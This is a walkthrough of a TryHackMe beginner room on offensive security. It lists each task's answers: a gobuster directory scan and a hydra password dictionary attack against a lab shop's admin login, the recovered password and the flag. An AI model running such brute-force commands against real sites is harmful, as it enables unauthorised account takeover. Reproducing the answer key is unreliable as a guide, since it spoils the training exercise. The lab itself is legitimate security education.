





##### Link: [Become a Hacker](https://tryhackme.com/room/becomeahacker)
---
##### Task 1: What Is Offensive Security?
1. I understand the learning objectives and am ready to learn about Offensive Security!
	- `No answer needed`
---
##### Task 2: Finding Weaknesses
1. Using the manual or automated methods described above, what hidden web page did you discover?
	- Run provided command: `gobuster dir --url http://www.onlineshop.thm/ -w /usr/share/wordlists/dirbuster/directory-list.txt`
		- 
	- `/login`
2. Based on your Gobuster scan results, what status code is returned when accessing the hidden page?
	- `200`
---
##### Task 3: Exploiting Weaknesses
1. Using either manual testing or an automated dictionary attack, what password did you discover for the admin user?
	- Run: `hydra -l admin -P passlist.txt www.onlineshop.thm http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V`
		- 
		- 
	- `qwerty`
2. After logging in using the password found, what secret message is displayed on the page?
	- Image
		- 
		- 
	- `THM{born_to_hack!}`
3. Review the output of your Hydra dictionary attack. How many failed password attempts were made before the correct password was found?
	- `17`
---
##### Task 4: Where to Go From Here
1. Complete the room and continue on your cyber learning journey!
	- `No answer needed`
---
 